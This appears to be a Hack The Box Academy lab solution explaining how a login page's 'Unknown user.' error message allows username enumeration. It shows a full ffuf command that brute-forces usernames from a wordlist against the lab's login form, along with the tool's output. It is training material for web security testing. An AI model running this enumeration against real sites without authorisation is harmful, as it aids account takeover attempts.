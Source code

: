 After spawning the target machine and visiting its root web page, students need to attempt signing with dummy credentials, using the Web Developers Tools Network tab (`Ctrl + Shift + E`) to inspect the request:

![[HTB Solutions/CBBH/z. images/37c27357080c6a794d8cf3e5106620ee_MD5.jpg]]

The error message the server returns, "Unknown user.", exposes that the username provided does not exist, regardless of the password's validity; this allows enumerating valid usernames. Additionally, students will discover that `username` and `password` are the parameters used by the form to send data to the server:

![[HTB Solutions/CBBH/z. images/2c0681d4275ad11061a85eb37702ef57_MD5.jpg]]

Therefore, students need to use `ffuf` to enumerate valid usernames, finding only one to be valid:

Code: shell

```shell
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://STMIP:STMPO/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=123" -fr "Unknown user."
```

```
┌─[eu-academy-5]─[10.10.14.81]─[htb-ac-413848@htb-2rcbi2srbd]─[~]
└──╼ [★]$ ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.54.176:58188/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=123" -fr "Unknown user."

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.54.176:58188/index.php
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=123
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Unknown user.
________________________________________________

{hidden}                [Status: 200, Size: 3271, Words: 754, Lines: 103, Duration: 1508ms]
```
